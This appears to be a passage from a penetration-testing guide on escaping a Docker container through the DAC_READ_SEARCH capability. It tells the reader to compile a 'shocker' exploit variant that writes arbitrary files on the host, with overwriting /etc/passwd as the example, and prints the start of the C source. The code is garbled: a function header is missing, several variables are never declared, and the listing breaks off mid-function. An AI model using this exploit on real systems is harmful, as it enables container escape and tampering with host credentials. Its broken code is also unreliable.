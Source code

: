 Inside the previous output you can see that the **DAC\_READ\_SEARCH** capability is enabled. As a result, the container can **debug processes**. **This mean that you can bypass the file read and write permission checks on any file.**

First of all read the previous section that [**abuses DAC\_READ\_SEARCH capability to read arbitrary files**](docker-breakout.md#dac_read_search-capability) of the host and **compile** the exploit.  
Then, **compile the following version of the shocker exploit** that ill allow you to **write arbitrary files** inside the hosts filesystem:

```c
#include <stdio.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <errno.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <dirent.h>
#include <stdint.h>

// gcc shocker_write.c -o shocker_write
// ./shocker_write /etc/passwd passwd 

struct my_file_handle {
  unsigned int handle_bytes;
  int handle_type;
  unsigned char f_handle[8];
};
void die(const char * msg) {
  perror(msg);
  exit(errno);
}
void dump_handle(const struct my_file_handle * h) {
  fprintf(stderr, "[*] #=%d, %d, char nh[] = {", h -> handle_bytes,
    h -> handle_type);
  for (int i = 0; i < h -> handle_bytes; ++i) {
    fprintf(stderr, "0x%02x", h -> f_handle[i]);
    if ((i + 1) % 20 == 0)
      fprintf(stderr, "\n");
    if (i < h -> handle_bytes - 1)
      fprintf(stderr, ", ");
  }
  fprintf(stderr, "};\n");
} {
  int fd;
  uint32_t ino = 0;
  struct my_file_handle outh = {
    .handle_bytes = 8,
    .handle_type = 1
  };
  DIR * dir = NULL;
  struct dirent * de = NULL;
  path = strchr(path, '/');
  // recursion stops if path has been resolved
  if (!path) {
    memcpy(oh -> f_handle, ih -> f_handle, sizeof(oh -> f_handle));
    oh -> handle_type = 1;
    oh -> handle_bytes = 8;
    return 1;
  }
  ++path;
  fprintf(stderr, "[*] Resolving '%s'\n", path);
  if ((fd = open_by_handle_at(bfd, (struct file_handle * ) ih, O_RDONLY)) < 0)
    die("[-] open_by_handle_at");
```